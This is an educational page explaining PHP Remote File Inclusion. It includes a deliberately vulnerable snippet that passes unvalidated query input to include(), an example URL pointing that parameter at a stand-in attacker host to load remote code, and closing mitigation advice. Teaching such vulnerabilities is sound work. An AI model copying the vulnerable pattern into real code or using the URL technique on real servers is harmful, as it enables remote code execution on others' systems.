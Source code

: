 # 🟨 RFI - Remote File Inclusion

Remote File Inclusion (RFI) is a vulnerability that occurs when a web application includes a remote file (usually from a remote server controlled by an attacker) in its output without proper sanitization or validation. Attackers can exploit RFI vulnerabilities to execute arbitrary code on the server, steal sensitive information, or achieve remote code execution.

Here's an explanation of RFI with an example:

Suppose you have a vulnerable PHP web application that includes a remote file based on a user-supplied parameter:

```php
<?php
// vulnerable.php

$file = $_GET['file']; // User-supplied input

include($file); // Include the specified file
?>
```

In this example, the PHP script includes a file specified by the `file` parameter from the URL query string. However, it does not properly validate or sanitize the input, making it vulnerable to RFI.

An attacker can exploit this vulnerability by supplying a URL pointing to a malicious PHP script in the `file` parameter. The malicious script will be executed on the server when included by the vulnerable PHP script.

For example, if the attacker submits the following URL:

```
http://vulnerable-site.com/vulnerable.php?file=http://attacker-site.com/malicious.php
```

The vulnerable PHP script will attempt to include the remote `malicious.php` script from the attacker's server. If the server allows remote file inclusion and has PHP code execution enabled, the `malicious.php` script will be executed, allowing the attacker to run arbitrary commands or code on the server.

The contents of the `malicious.php` script could be something like this:

```php
<?php
// malicious.php

echo "RFI vulnerability exploited!";
?>
```

When the vulnerable PHP script includes the `malicious.php` script, the server will execute it, and the output (`RFI vulnerability exploited!`) will be returned to the attacker.

To mitigate RFI vulnerabilities, web developers should:

* Avoid including files based on user-supplied input, especially from remote sources.
* If including remote files is necessary, validate and sanitize the input to ensure it refers only to allowed URLs or sources.
* Use whitelisting to specify trusted sources for including remote files.
* Implement proper input validation and output encoding to prevent other types of injection attacks.
